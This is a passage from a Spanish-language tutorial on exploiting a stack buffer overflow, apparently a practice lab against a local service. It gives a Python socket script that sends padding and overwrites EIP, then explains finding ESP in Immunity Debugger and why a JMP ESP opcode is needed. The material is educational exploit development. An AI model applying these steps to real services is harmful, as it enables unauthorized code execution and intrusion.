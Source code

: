 Ahora que tenemos el offset, vamos a modificar el script.

#### Etapa 4: Encontrar la direccion donde despues del EIP {-}

Aqui despues de añadir las **A** que tiene que tener 1052 de offset y las 4 **B** que seria el EIP, vamos a añadir
500 **C** para buscar la direccion donde se sobre escribe el resto del programa. 

```python
#!/usr/bin/python3

import socket
import signal
import pdb
import sys
import time

from pwn import *
from struct import pack

# Variables globales
remoteAddress = "127.0.0.1"

def executeExploit():
    offset = 1052
    before_eip = b"A" * offset
    eip = b"B" * 4
    after_eip = b"C" * 500

    payload = before_eip + eip + after_eip

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((remoteAddress, 8888))
    s.send(payload)

if __name__ == "__main__":
    executeExploit()
```

Si lanzamos el script, vemos en el Immunity debugger que el EIP vale ahora 42424242, es el punto donde savemos que tenemos el control
del EIP. Ahora la pregunta es, que tiene que valer el EIP para poderle injectar los commandos que queremos. Pues en el Immunity debugger, 
que el **ESP** contiene un monton de **C**. el ESP es la Stack. Si le hacemos un click derecho a la direccion y les damos a **Follow in Dumb**, 
en la parte baja de la izquierda vemos todas la **C** en formato raw.

Al final aqui la direccion a la cual tenemos que appuntar es a la **ESP** `0x0022D470` que es la pilla. El problema es que no podemos simplemente ponerle al
EIP la direccion del ESP porque esto no va a funccionar. Tendremos aqui que usar un concepto que se llama **OPCODE**. El **OPCODE** son instrucciones
a bajo nivel que nos permitte hacer un Jump al ESP llamado **JMPESP**.
